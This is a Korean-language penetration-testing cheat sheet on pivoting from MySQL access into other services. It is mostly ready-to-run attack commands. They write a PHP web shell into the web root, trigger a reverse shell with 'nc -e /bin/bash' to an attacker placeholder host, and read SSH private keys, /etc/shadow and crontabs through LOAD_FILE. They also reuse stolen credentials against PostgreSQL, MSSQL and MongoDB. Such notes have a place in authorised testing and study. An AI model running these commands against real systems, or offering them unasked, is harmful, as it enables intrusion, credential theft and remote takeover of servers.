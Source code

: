 
## 🔗 다른 서비스와 연계

### 🌐 웹 애플리케이션과 연계

```bash
# 웹 애플리케이션 설정 파일에서 MySQL 크레덴셜 발견
# config.php, wp-config.php, database.yml 등에서 크레덴셜 수집 후 MySQL 접근

# MySQL에서 웹 디렉토리에 웹쉘 업로드
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/mysql_shell.php';

# 웹쉘 테스트
curl "http://{IP}/mysql_shell.php?cmd=whoami"

# 리버스쉘 실행
curl "http://{IP}/mysql_shell.php?cmd=nc -e /bin/bash {ATTACKER_IP} 4444"
```

### 📁 파일 시스템과 연계

```bash
# SSH 키 파일 읽기
SELECT LOAD_FILE('/home/user/.ssh/id_rsa');
SELECT LOAD_FILE('/root/.ssh/authorized_keys');

# 크론탭 확인
SELECT LOAD_FILE('/etc/crontab');
SELECT LOAD_FILE('/var/spool/cron/crontabs/root');

# 패스워드 파일
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/shadow');

# 네트워크 설정
SELECT LOAD_FILE('/etc/hosts');
SELECT LOAD_FILE('/etc/network/interfaces');
```

### 🗂️ 다른 데이터베이스와 연계

```bash
# MySQL에서 발견한 크레덴셜로 다른 DB 접근
# PostgreSQL
psql -h {IP} -U {MYSQL_USER} -d postgres

# MSSQL
impacket-mssqlclient {MYSQL_USER}:{MYSQL_PASS}@{IP}

# MongoDB
mongo {IP}:27017/{DATABASE} -u {MYSQL_USER} -p {MYSQL_PASS}
```

---